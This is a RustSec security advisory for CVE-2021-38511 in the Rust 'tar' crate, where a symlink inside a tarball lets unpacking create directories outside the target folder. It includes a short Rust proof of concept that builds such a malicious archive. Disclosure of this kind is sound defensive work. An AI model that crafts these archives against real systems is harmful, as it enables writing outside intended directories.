 ```toml
[advisory]
id = "RUSTSEC-2021-0080"
package = "tar"
aliases = ["GHSA-62jx-8vmh-4mcw", "CVE-2021-38511"]
cvss = "CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:H/A:N"
date = "2021-07-19"
url = "https://github.com/alexcrichton/tar-rs/issues/238"

[versions]
# none, 0day
patched = [">= 0.4.36"]

[affected]
functions = { "tar::Archive::unpack" = ["< 0.4.36"] }
```

# Links in archive can create arbitrary directories

When unpacking a tarball that contains a symlink the `tar` crate may create
directories outside of the directory it's supposed to unpack into.

The function errors when it's trying to create a file, but the folders are
already created at this point.

```rust
use std::{io, io::Result};
use tar::{Archive, Builder, EntryType, Header};

fn main() -> Result<()> {
    let mut buf = Vec::new();

    {
        let mut builder = Builder::new(&mut buf);

        // symlink: parent -> ..
        let mut header = Header::new_gnu();
        header.set_path("symlink")?;
        header.set_link_name("..")?;
        header.set_entry_type(EntryType::Symlink);
        header.set_size(0);
        header.set_cksum();
        builder.append(&header, io::empty())?;

        // file: symlink/exploit/foo/bar
        let mut header = Header::new_gnu();
        header.set_path("symlink/exploit/foo/bar")?;
        header.set_size(0);
        header.set_cksum();
        builder.append(&header, io::empty())?;

        builder.finish()?;
    };

    Archive::new(&*buf).unpack("demo")
}
```

This has been fixed in https://github.com/alexcrichton/tar-rs/pull/259 and is
published as `tar` 0.4.36. Thanks to Martin Michaelis (@mgjm) for discovering
and reporting this, and Nikhil Benesch (@benesch) for the fix!
